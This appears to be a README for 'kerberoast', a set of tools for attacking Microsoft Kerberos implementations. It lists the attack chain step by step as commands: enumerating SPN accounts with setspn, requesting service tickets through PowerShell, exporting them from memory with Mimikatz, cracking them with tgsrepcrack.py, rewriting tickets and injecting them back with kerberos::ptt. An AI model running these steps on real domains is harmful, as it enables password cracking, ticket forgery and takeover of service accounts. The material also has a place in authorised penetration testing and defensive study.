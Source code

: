 kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN
setspn -T medin -Q */* | Select-String Users

Request the tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"

Extract from ram with Mimikatz
kerberos::list /export

Crack with
./tgsrepcrack.py

Rewrite
./kerberoast.py

Inject back into RAM
kerberos::ptt sql.kirbi
